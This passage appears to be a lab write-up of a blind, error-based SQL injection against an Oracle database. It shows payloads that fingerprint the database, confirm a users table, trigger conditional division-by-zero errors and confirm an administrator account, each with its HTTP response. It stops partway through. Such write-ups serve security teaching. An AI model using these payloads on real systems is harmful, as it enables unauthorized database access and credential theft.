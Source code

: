 **Testing MSSQL-specific syntax:**
```sql
' AND SELECT '1'='1
```
Response: HTTP/2 500 Internal Server Error

```sql
' AND (SELECT 1) = 1 --
```
Response: HTTP/2 500 Internal Server Error

Since this syntax is specific to MSSQL and both payloads produce a 500 error, the database is likely not MSSQL.

**Testing Oracle-specific syntax:**
```sql
'||(SELECT'')||'
```
Response: HTTP/2 500 Internal Server Error

```sql
'||(SELECT''FROM dual)||'
```
Response: HTTP/2 200 OK

This strongly indicates the target is using an Oracle database. Oracle requires a `FROM` clause even for selecting constant values, and `DUAL` is a special one-row dummy table that Oracle provides for such cases.

**Step 2: Verifying Users Table**

```sql
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```
Response: HTTP/2 200 OK

This confirms the existence of a `users` table in the database.

**Note:** `'||(SELECT '' FROM users)||'` will throw an error because it returns multiple rows, which is invalid in a **scalar subquery context** (where only a single value is expected). Oracle will return an `ORA-01427: single-row subquery returns more than one row` error.

**Step 3: Testing Conditional Errors**

Verified conditional error functionality:
```sql
'||(SELECT CASE WHEN '1'='1' THEN TO_CHAR(1/0) ELSE NULL END FROM dual)||'
```
Response: HTTP/2 500 Internal Server Error

```sql
'||(SELECT CASE WHEN '1'='2' THEN TO_CHAR(1/0) ELSE NULL END FROM dual)||'
```
Response: HTTP/2 200 OK

This confirms that conditional errors can be used to extract information. When the condition is true, `TO_CHAR(1/0)` forces a division-by-zero error.

**Step 4: Verifying Administrator Username**

```sql
'||(SELECT CASE WHEN '1'='1' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
Response: HTTP/2 500 Internal Server Error
